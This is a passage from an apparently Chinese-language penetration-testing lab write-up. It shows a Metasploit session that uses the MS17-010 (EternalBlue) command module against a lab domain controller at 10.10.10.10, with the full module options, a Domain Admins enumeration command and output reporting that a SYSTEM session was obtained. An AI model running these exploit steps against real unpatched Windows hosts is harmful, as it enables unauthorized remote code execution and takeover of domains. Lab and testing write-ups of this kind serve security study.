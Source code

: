 ```
[*] 10.10.10.10:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 201 PC: Win7
>
> 10 DC: Win S 2012 R2



#### MS17_010

上面两台均可利用入侵，以DC为例：

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/admin/smb/ms17_010_command
msf6 auxiliary(admin/smb/ms17_010_command) > options 

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                     Required  Description
   ----                  ---------------                     --------  -----------
   COMMAND               net group "Domain Admins" /domain   yes       The command you want to execute on the remote host
   DBGTRACE              false                               yes       Show extra debug trace info
   LEAKATTEMPTS          99                                  yes       How many times to try to leak transaction
   NAMEDPIPE                                                 no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/da  yes       List of named pipes to check
                         ta/wordlists/named_pipes.txt
   RHOSTS                                                    yes       The target host(s), see https://github.com/rapid7/metasploit
                                                                       -framework/wiki/Using-Metasploit
   RPORT                 445                                 yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                       no        Service description to to be used on target for pretty listi
                                                                       ng
   SERVICE_DISPLAY_NAME                                      no        The service display name
   SERVICE_NAME                                              no        The service name
   SMBDomain             .                                   no        The Windows domain to use for authentication
   SMBPass                                                   no        The password for the specified username
   SMBSHARE              C$                                  yes       The name of a writeable share on the server
   SMBUser                                                   no        The username to authenticate as
   THREADS               1                                   yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                             yes       The name of the remote Windows directory

msf6 auxiliary(admin/smb/ms17_010_command) > set command "ipconfig"
command => ipconfig
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 10.10.10.10
rhosts => 10.10.10.10
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.10.10:445       - Target OS: Windows Server 2012 R2 Standard 9600
[*] 10.10.10.10:445       - Built a write-what-where primitive...
[+] 10.10.10.10:445       - Overwrite complete... SYSTEM session obtained!
[+] 10.10.10.10:445       - Service start timed out, OK if running a command or non-service executable...
```